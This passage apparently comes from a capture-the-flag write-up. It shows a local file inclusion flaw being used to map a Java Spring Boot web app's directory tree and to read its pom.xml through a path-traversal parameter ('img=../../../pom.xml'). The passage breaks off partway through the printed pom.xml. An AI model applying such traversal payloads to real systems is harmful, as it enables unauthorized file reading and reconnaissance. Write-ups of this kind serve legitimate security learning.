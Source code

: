 ### Use the LFI to gain information

Browsing and listing the folder allow to build the directory structure of the application that is located in the `/var/www/WebApp` folder

- .classpath
- .DS_Store
- .idea
- .project
- .settings
- HELP.md
- mvnw
- mvnw.cmd
- pom.xml
- src
    - main
      - java
        - com
        - META-INF
      - resources
        - application.properties
        - media
        - static
        - templates
      - uploads
    - test
- target

This is a java application, and the `pom.xml` is a cental piece of information, since this file describe how the application is build, and list its dependencies.

`img=../../../pom.xml` :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
```